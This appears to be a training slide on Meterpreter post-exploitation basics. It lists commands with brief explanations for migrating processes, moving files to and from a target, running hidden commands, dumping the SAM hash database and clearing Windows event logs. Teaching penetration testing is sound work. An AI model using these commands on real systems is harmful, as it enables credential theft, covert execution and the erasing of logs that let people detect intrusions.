

# Now What?  - Post Exploitation
Meterpreter Basics
migrate – migrates the meterpreter dll injection to a different process.   Explorer.exe is a good choice
sysinfo – displays information about the target system
download – “download c:\\boot.ini”   -  downloads from the target machine. Note double slashes
upload – “upload evil.exe c:\\windows\system32” – uploads file to the target machine
getuid – returns the userid (permissions) that meterpreter is running
execute – “execute –f cmd.exe –i –H”  runs command on the remote machine. –i runs the command interactively.   -H hides the process from user.
hashdump – dumps the SAM database for offline cracking
clearev – clears the windows events logs
Much more at: http://www.offensive-security.com/metasploit-unleashed/Meterpreter_Basics